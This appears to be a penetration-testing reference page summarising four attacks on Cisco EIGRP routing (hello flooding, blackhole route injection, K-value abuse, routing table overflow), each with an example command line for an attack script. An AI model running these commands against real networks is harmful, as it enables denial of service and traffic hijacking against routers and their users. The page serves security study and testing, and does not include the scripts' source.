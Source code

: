 # EIGRP Attacks

{{#include ../../banners/hacktricks-training.md}}

**This is a summary of the attacks exposed in** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Check it for further information.

## **Fake EIGRP Neighbors Attack**

- **Objective**: To overload router CPUs by flooding them with EIGRP hello packets, potentially leading to a Denial of Service (DoS) attack.
- **Tool**: **helloflooding.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface, e.g., `eth0`.
  - `--as`: Defines the EIGRP autonomous system number, e.g., `1`.
  - `--subnet`: Sets the subnet location, e.g., `10.10.100.0/24`.

## **EIGRP Blackhole Attack**

- **Objective**: To disrupt network traffic flow by injecting a false route, leading to a blackhole where the traffic is directed to a non-existent destination.
- **Tool**: **routeinject.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
  %%%
- **Parameters**:
  - `--interface`: Specifies the attacker’s system interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the attacker’s IP address.
  - `--dst`: Sets the target subnet IP.
  - `--prefix`: Defines the mask of the target subnet IP.

## **Abusing K-Values Attack**

- **Objective**: To create continuous disruptions and reconnections within the EIGRP domain by injecting altered K-values, effectively resulting in a DoS attack.
- **Tool**: **relationshipnightmare.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the IP Address of a legitimate router.

## **Routing Table Overflow Attack**

- **Objective**: To strain the router's CPU and RAM by flooding the routing table with numerous false routes.
- **Tool**: **routingtableoverflow.py** script.
- **Execution**:
  %%%bash
  sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the attacker’s IP address.

{{#include ../../banners/hacktricks-training.md}}




